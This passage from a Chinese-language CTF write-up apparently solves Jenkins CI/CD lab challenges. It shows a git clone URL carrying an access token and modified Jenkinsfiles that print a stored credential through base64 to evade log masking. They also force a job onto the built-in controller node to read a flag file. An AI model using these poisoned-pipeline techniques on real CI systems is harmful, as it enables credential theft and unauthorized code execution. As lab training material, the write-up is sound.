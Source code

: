 该令牌具有存储库的可写权限，使用此令牌 clone 存储库：

```bash
git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@127.0.0.1:3000/Wonderland/caterpillar.git
```

然后就是修改成读取 flag 的 pipeline：

```bash
stage('deploy') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
}
```

然后 push 过去就可以执行。

## Cheshire Cat

题目中说 All jobs in your victim’s Jenkins instance run on dedicated nodes, but that’s not good enough for you.因此暗示了可能要指定 node 来执行。考虑到一般执行是在 agent1，因此应该制定在 built-in node 上执行。在网上查一下就知道默认的 built-in node 的 label 是`built-in`。

git clone 下来之后修改`Jenkinsfile`：

```bash
pipeline {
    agent {label 'built-in'}
    environment {
        PROJECT = "sanic"
    }

    stages {

        stage ('Unit Tests') {
            steps {
                sh "cat ~/flag5.txt|base64"
            }
        }
    }

    post {
        always {
            cleanWs()
        }
    }
}
```

指定 agent 是`built-in`且从文件系统中读取 flag。

然后同样的流程直到 pull request，获得 flag：
